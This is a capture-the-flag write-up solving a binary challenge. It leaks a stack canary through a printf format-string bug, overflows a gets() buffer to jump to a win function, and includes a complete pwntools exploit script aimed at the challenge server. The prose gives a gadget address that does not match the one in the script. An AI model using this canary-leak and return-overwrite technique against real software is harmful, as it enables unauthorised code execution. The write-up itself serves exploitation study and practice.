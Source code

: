 
# Tweety Birb

We are given a binary with the following main function

```clike
int main(void) {
    char buffer [72];
    long canary = *(long *)(in_FS_OFFSET + 0x28);

    puts("What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it\'s not like you hacker can do anything. Anyways, what do you think of magpies?");
    gets(buffer);
    printf(buffer);

    puts("\nhmmm interesting. What about water fowl?");
    gets(buffer);

    if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
    }
    return 0;
}
```

We have a buffer of size 72. First, we have a call to `gets`, allowing us to write anything, including more than 72 characters, so we have a buffer overflow.

We also have a `win` function elsewhere which calls `cat flag.txt` in a shell, so we want to return to this by overwriting RSP. The problem here (which the title hints at) is that canaries are enabled. This means a random value is set up in the beginning of `main` right after the other local variables. At the end of `main` it checks if this canary has been modified, and if so crashes.

So the second we write more than 72 bytes to the buffer, we modify the canary, which results in a crash. What we want to modify lies after the canary.

The only way to get around this is by somehow leaking the canary. If we can do this, we can write 72 bytes of padding, followed by the canary and then what we want to place in RBP and RSP.

Luckily we ALSO have a format string vulnerability, since `printf(buffer)` is called directly on our input, allowing us to pass any format string. Since no other arguments are passed, if we input e.g. `%x`, the value that it prints will just be the next on the stack.

The canary also lies on the stack and by using `gdb` to debug the program, we can get the correct index in the stack, in this case 15. This means that if we pass `%15$p` to the first `gets()`, then the stack canary is leaked in the `printf()`.

We find the address of the `win` function with `objdump -d tweetybirb | grep win`, which returns `00000000004011d6 <win>:`. Now we can create the following payload:

- 72 bytes of padding
- leaked canary
- rbp (8 random bytes)
- rsp (0x4011d6)

We also need to remember to align the stack when run remotely, so we find a `ret` gadget with `ropper -f tweetybird` at address 0x4011d6 and add this before the `win` address.

We get the flag with the following script:

```python
from pwn import *

p = remote("143.198.184.186", 5002)

# LEAK CANARY IN
p.recvuntil(b"?\n")
p.sendline(b"%15$p")

canary = p64(int(p.recvline()[2:-1], 16))
log.success(f"Canary leaked: {canary}")

p.recvuntil(b"?\n")

# BUFFER OVERFLOW
padding = b"A" * 72
rbp = b"B" * 8
ret = p64(0x40101a)
win_addr = p64(0x4011d6)

payload = padding + canary + rbp + ret + win_addr
p.sendline(payload)

p.interactive()
```

The flag returned is

> kqctf{tweet*tweet_did_you_leak_or_bruteforce*...\_plz_dont_say_you_tried_bruteforce}
